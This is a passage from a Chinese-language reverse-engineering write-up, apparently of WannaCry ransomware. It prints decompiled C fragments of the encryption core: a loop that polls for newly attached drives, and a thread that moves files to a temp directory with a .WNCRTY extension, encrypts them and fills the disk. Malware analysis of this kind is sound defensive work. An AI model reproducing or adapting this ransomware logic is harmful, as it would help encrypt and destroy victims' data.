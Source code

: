 ```c
ExitThread(0);  

}  
```

每隔5秒检测时候存在 dky 文件，存在就 引入 公钥并 进行 加解密操作

## 6.2 EncrypteAllFiles 线程回调+加密 (Important)

> 作为病毒的核心函数嵌套了，里外嵌套了很多层

### 6.2.1 第一层

```c
Drives = GetLogicalDrives();                  // 获取驱动中所有磁盘  

if ( !dword_1000DD8C )  

{  

while ( 1 )  

{  

Sleep(3000u);  

Drives_1 = Drives;  

Drives = GetLogicalDrives();  

if ( Drives != Drives_1 )                 // 检测是否有新的磁盘加入  
```

循环检测是否有新的磁盘加入，有就加密，没有就一直循环

### 6.2.2 第二层

```c
DWORD __stdcall sub_10005680(LPVOID Num_3)  

{  

char Parameter; // [esp+0h] [ebp-930h]  

int v3; // [esp+92Ch] [ebp-4h]  



InitCritical(&Parameter);                     // 初始化临界区  

v3 = 0;  

if ( MovFileToTemp(&Parameter, FileName, (int)sub_10005340, (int)&dword_1000DD8C) )// 移动文件到临时目录下并重命名为.WNCRTY  

{  

EncryptFile((int)&Parameter, (LONG)Num_3, 0);// 加密磁盘上的所有文件   

FillDisk((int)Num_3);                       // 在回收站创建一个文件 并且循环写入数据直到磁盘空间不足  

ReleaseResouce(&Parameter);                 // 释放资源  

ExitThread(0);  

```